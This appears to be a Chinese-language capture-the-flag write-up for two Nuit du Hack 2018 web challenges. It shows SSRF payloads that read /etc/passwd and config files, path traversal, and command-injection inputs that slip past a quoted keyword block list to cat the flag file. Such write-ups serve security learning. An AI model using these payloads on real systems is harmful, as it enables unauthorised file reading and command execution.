



# Nuit du Hack CTF 2018 - Notes

## CoinGame

打開頁面，可以看到有一個搜尋視窗可以放網址做搜尋



這裡打 www.google.com ，可以看一下 request

```
GET http://coingame.challs.malice.fr/curl.php?way=www.google.com HTTP/1.1
Host: coingame.challs.malice.fr
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://coingame.challs.malice.fr/curl.php?way=127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

而如果改成 file:///etc/passwd ，可以看到列出密碼，代表有 SSRF

用 Wappalyzer 可以知道是 apache2 

直接打 http://localhost/server-status ，可以看到他列出[系統狀態](./CoinGame/server_status.html)


而在主頁面上可以看到有```DESIGNED BY TOTHEYELLOWMOON```

去 [github](https://github.com/totheyellowmoon/CoinGame) 可以找到


而在一開始的 /etc/passwd 可以看到他有開 tftp 

那在一次利用 ssrf : file:///etc/default/tftpd-hpa
```
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/home/CoinGame" TFTP_ADDRESS="0.0.0.0:69" TFTP_OPTIONS="--secure --create"
```

從這裡我們可以知道他的檔案放在哪裡，然後可以比對github 上那些檔案有哪個不一樣

就可以找到答案

從他的 server 上拉東西可以利用 wget，舉例:
```
$ wget http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/gameAnimationImages/background2.png -O flag.png
```


## Crawl me maybe
> Description:
>
> A website test if a web page validity. You can provide this page by url only. Find a way to find and get the flag.

打開頁面


如果輸入 http://www.google.com 會得到



而如果改輸入 ../../../../../../etc/passwd 就可以看到 passwd (path traversal attacks)


且可以在底下看到有 /home/challenge


而把 url那改為 |ls 就可以看到底下檔案 (command injection)

而在 /home/challenge/src 下可以看到有 .flag.txt



如果直接輸入 |cat .flag.txt 會顯示偵測到攻擊

到我們先來看一下 CrawlMeMaybe.rb

```ruby
require 'sinatra'
require 'open-uri'
require 'nokogiri'
set: bind, '0.0.0.0'
set: port, 8080 get '/'
do @title = 'Crawl Me Maybe!'
erb: index end post '/result'
do @title = 'Crawl Me Maybe!'
url = params["url"]
if /
sh | dash | bash | rbash | zsh / .match(url) || url.match('flag') || url.match('txt') || url.index('*') != nil || (url.index('|') != nil && !(url.index('cat') != nil || url.index('ls') != nil)) @result = "Attack detected"
erb: error
else begin page = open(url) rescue StandardError => e @result = "Invalide url"
erb: error
else begin page = Nokogiri::HTML(page) { | config | config.strict
}
@result = "Page well formed !"
@content = page.text erb: result rescue Nokogiri::HTML::SyntaxError => e @result = "caught exception: #{e}"
erb: error end end end end
```


接下來就是要想辦法 bypass 了

這裡看其他人  write up 紀錄一下

```
1. url=|find ../../../../../home/challenge/src/ -exec cat {} \;

2. url=|find /home/challenge/src -type f -exec cat {} \;
## 使用 find 搜尋檔案，並用 cat 顯示其內容
```